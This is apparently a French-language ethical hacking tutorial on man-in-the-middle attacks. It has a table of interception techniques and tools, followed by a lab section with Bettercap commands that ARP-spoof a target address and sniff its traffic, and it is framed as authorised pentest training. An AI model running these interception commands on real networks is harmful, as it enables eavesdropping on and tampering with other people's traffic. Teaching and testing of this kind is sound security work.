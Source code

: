 # # Man‑in‑the‑Middle (MITM) en Ethical Hacking

---

## 1. Qu'est-ce qu'une attaque MITM ?

Une attaque **Man-in-the-Middle (MITM)** place un attaquant **entre deux parties légitimes**, permettant d’**écouter**, **modifier**, ou **injecter** du trafic.  
En ethical hacking, ce type d’attaque est simulé **uniquement avec une autorisation écrite**, dans le but d’**évaluer les vulnérabilités réseau** et les capacités de **détection et de réponse**.

---

## 2. Techniques MITM courantes en pentest

| Couche / Vecteur         | Outils typiques                         | Principe                             | État actuel (2024-2025) |
|--------------------------|-----------------------------------------|--------------------------------------|--------------------------|
| **ARP Spoofing**         | Bettercap, arpspoof, Ettercap           | Empoisonner les caches ARP pour intercepter le trafic. | Fonctionne toujours sur les réseaux LAN non sécurisés. |
| **Evil Twin Wi-Fi**      | Bettercap, airgeddon, hostapd-wpas      | Cloner un SSID, piéger les utilisateurs. | Très utilisé, surtout en déplacement. Matériel abordable. |
| **DNS Spoofing**         | dnsspoof, Bettercap, Responder          | Répondre aux requêtes DNS avant le vrai serveur. | Contourné si DoH/DoT activé. |
| **Interception HTTPS**   | mitmproxy, Burp Suite                   | Déchiffrer TLS via une CA racine installée. | TLS 1.3 rend difficile le déchiffrement sans intervention sur le client. |
| **SSL Stripping**        | sslstrip-ng, Bettercap                 | Forcer HTTP au lieu de HTTPS.        | Limité par HSTS et les navigateurs modernes. |
| **DHCP Spoofing**        | Bettercap, Yersinia                     | Fournir une fausse passerelle DNS.   | Bloqué dans les réseaux bien configurés. |

---

## 3. TP : ARP Spoofing avec Bettercap

```bash
# 1. Lancer Bettercap et scanner le réseau
sudo bettercap -iface eth0
bettercap> net.probe on

# 2. Démarrer l'attaque MITM
bettercap> set arp.spoof.fullduplex true
bettercap> set arp.spoof.targets 192.168.1.50
bettercap> arp.spoof on

# 3. Sniffer le trafic
bettercap> net.sniff on
```
`Remarque` : utilisez ces techniques dans un cadre pédagogique ou professionnel strictement autorisé. L’objectif est toujours la sécurisation, non l’exploitation malveillante. 